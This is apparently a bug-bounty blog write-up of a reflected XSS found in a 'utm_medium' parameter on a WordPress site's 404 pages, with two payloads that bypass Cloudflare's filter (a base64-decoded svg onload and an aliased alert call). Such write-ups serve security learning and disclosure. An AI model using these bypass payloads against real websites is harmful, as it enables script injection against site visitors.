 ```yaml
---
layout: post
title:  "Popping XSS on a website behind CloudFlare"
date:   2020-11-08
categories: CTF
thumbnail: /img/rude.png
tags: cloudflare,xss-bypass
---
```

Few days ago I encountered this interesting reflected XSS on a private program. Decided to drop a short writeup because it was fun to exploit.

I came across this `utm_medium` GET parameter that gets reflected on 404 pages of the website and the website was running WordPress:

```html
<script>(function (c, p, d, u, id, i) {
          id = '{REFLECTED_VALUE}_494946e30b60c7d85f47556fafff8903'; // Optional Custom ID for user in your system
          u = 'https://www.g2crowd.com/attribution_tracking/conversions/' + c + '.js?p=' + encodeURI(p) + '&e=' + id;
          i = document.createElement('script');
          i.type = 'application/javascript';
          i.src = u;
          d.getElementsByTagName('head')[0].appendChild(i);
        }("71", document.location.href, document));</script>
</script>
```

I could easily break out of the apostrophe and comment out rest of the line by setting the `utm_medium` parameter value to `'; XSS ;//`. 

Seeing there was no filter in place I immediately added `alert(1)` to see this simple numeric value pop-up and have my satisfaction but I got rudely interrupted by this warning message of CloudFlare:

![CloudFlare-Block](/img/rude.png#center)

alert()/confirm()/prompt() pretty much all of them were blocked, the first bypass that I came up with was this:

```
1';document.body.innerHTML%3Datob('PHN2Zy9vbmxvYWQ9YWxlcnQoZG9jdW1lbnQuZG9tYWluKT4K');//
```

The base64 string gets decoded into `<svg/onload=alert(document.domain)>` and then inserted to body which triggers the XSS.

This was cool and all but we can do better! How about this?

```
1';ツ=alert;ツ(document.domain);//
```

This looks much cleaner and instantly got the alert box I was waiting for! 

That was it for this one, hope you found it interesting as well and catch you on the next one!